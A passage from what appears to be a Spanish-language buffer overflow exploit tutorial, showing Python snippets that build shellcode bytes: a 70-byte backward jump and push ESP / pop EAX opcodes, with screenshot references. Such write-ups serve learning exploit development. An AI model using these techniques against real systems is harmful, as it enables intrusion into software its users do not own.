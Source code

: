 Damos el salto para atrás de 70 bytes:

```python
jmp_esp70 = b"\xEB\xB8"                     #jmp $-70
```

Aquí es donde empezamos a mover los valores :

![paste](./images/98.jpeg)

Primero ***push ESP*** para poner el valor de ESP al inicio de la pila:

```python
recv += b"\x54"                 #   Push ESP
```

![paste](./images/99.jpeg)

seguido el el valor de ESP lo metemos en EAX:

```python
recv += b"\x58"                 #   Pop AEX
```
